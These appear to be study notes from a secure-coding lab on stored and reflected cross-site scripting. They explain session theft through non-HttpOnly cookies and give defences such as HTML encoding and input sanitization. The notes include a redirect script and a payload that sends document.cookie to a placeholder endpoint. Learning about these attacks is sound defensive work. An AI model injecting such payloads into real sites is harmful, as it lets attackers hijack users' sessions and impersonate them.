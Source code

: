 # Cross-Site Scripting (XSS)
Occurs when an adversary can inject malicious scripts into a trusted website.
These scripts are then executed by the client's browser without the knowledge of the user

## Stored Cross-Site Scripting
Using a security breach on a website, an attacker can use

```javascript
<script>document.location='https://mi-2eed751c-9561-4ef3-93ea-74a5b268ab33-0.mission.securecodewarrior.com/labSession/v1/labLogger'</script>
```

to redirect the user to another URL.

The application cookie was not configured as HttpOnly, which means that it allows client-side scripts to access the cookie. The description field of the transfer proves vulnerable to Stored XSS, as it does not sanitize user input. By inserting the malicious script and sending it to another user, it is possible to gain access to that user's sensitive information, such as session cookies. Once you get hold of the cookie, you can impersonate that user.

Never trust user input. **Stored Cross-Site Scripting** can be prevented by HTML encoding of untrusted data. Next to that, a secure configuration of cookies will prevent them from being accessed by JavaScript.

## Reflected Cross-Site Scripting

Using trusted company email an attacker can insert html/js code and make it available to clients.

The email feature must clean inputs to avoid malicious scripts.

```javascript
<script>document.location='{ENDPOINT_URL}?cookie='.concat(document.cookie)</script>
```